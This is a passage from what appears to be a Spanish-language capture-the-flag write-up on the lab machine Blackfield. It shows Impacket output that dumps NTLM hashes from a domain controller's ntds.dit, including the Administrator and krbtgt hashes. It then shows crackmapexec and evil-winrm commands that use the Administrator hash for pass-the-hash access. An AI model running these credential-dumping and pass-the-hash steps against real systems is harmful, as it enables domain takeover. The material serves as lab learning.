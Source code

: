nos va a dumpear todos los hashes para realizar PASSTHEHASH

    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
    [*] Reading and decrypting hashes from ntds.dit 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DC01$:1000:aad3b435b51404eeaad3b435b51404ee:2a2f8ac26db968c93a17fefdb36c38ee:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
    audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
    support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::

## [](##header-2)Validacion de Hash con Crackmapexec

    crackmapexec smb 10.10.10.192 -u 'Administrator' -H '184fb5e5178480be64824d4cd53b99ee'
    SMB    10.10.10.192  445  DC01   [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB    10.10.10.192  445  DC01   [+] BLACKFIELD.local\Administrator:184fb5e5178480be64824d4cd53b99ee (Pwn3d!)

## [](##header-2)Winrm Pass The Hash Administrator

    evil-winrm -i blackfield.local -u 'Administrator' -H '<HASH>'






































